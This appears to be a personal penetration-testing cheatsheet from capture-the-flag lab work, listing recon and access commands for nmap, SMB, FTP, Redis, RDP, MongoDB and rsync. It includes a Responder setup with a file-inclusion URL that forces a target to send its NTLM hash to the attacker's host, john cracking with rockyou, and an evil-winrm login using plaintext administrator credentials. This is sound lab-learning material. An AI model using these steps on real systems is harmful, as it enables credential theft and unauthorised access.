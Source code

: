 # cheatsheet

## Dictionary
* wordlists
  ```sudo apt install wordlists```
* seclists
  ```sudo apt install seclists```
  * dir: /usr/share/seclists/Discovery/Web-Content/common.txt
  * sub-domain: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

## Nmap
  ```shell
  sudo nmap -sV {IP}
  ```
  * if -sV not always enough, try -sC to run safe script for more version info.
  ```shell
  sudo nmap -sC {IP}
  ```
  
  ```shell
  sudo nmap -sT 10.129.107.120 -top-ports 1000 -d
  ```

  * all ports range, or specific ports, min-rate specific min send packets per sec.
  ```shell
  sudo nmap -p- --min-rate=1000 -sV {IP}
  ```

## Telnet
  ```shell
  telnet open {IP}
  ```

## FTP
* Press Entry button if password is null
  ```shell
  ftp anonymous@{IP}
  ```

## SMB
```shell
smbclient -L {IP}
```
```shell
smbclient \\\\{IP}\\{DIR}
```
### NTLM Challange/Responder
* Use tool: Responder, acting a authentication server to collect hash string where target machine send to.
```shell
git clone https://github.com/lgandx/Responder
sudo python3 Responder.py -I tun0
w3m http://unika.htb/index.php?page=//{LOCAL IP}/somefile
```
* Wordlists at /usr/share/wordlists
```shell
sudo apt install wordlists
```
* John, which is a brute force pwd cracking tool
* use wordlists referred above and hash.txt which generated by Responder
```shell
john -w=/usr/share/wordlists/rockyou.txt.gz hash.txt
```


## Redis
* see all info
```shell
info
```
* see server info
```shell
info server
```
```shell
select {db}
```
```shell
keys *
```
```shell
dbsize
```

## RDP
### GUI RDP
```shell
xfreerdp3 /v:{HOST} /u:{USERNAME}
```
### SHELL RDP
```shell
evil-winrm  -i 10.129.95.234 -u administrator -p badminton
```

## WEB
* wordlist
```shell
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
gobuster
gobuster dir -u 10.129.70.58 -w wordlist.txt
```

* binding host
```shell
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

## MongoDB
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
```
```shell
./mongosh mongodb://{IP}:{PORT}
show dbs;
show tables;
db.{TALBENAME}.find().pretty()
```

## Rsync
* default port 873
```shell
rsync --list-only {IP}::public
```
```shell
rsync {IP}::public/flag.txt flag.txt
```

## Kali RDP
```shell
#!/bin/bash
sudo apt -y update
sudo apt -y install kali-desktop-xfce xrdp
sudo systemctl enable xrdp
sudo systemctl restart xrdp
# setting the password for the kali user so you can login to the desktop. 
# Reset this once you have logged in.
echo 'kali:kali' | sudo chpasswd    
```
